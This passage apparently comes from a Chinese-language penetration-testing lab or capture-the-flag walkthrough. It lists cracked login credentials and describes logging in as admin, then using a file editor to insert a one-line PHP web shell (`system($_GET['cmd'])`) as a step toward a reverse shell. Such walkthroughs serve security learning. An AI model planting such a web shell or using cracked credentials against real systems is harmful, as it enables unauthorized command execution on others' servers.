 ![25](./pic/25.jpg)

破解后为

```shell
admin:ackbar
medical:medical
```

# 构造命令执行至反弹shell

以`admin`登录，然后测试功能点，在`administration`下的`files`中，发现可编辑文件，并且可以保存，编辑的文件可以是`php`，并且还有文件所在的路径，插入一句话，使得可以命令执行

```php
system($_GET['cmd']);
```

![](./pic/26.jpg)
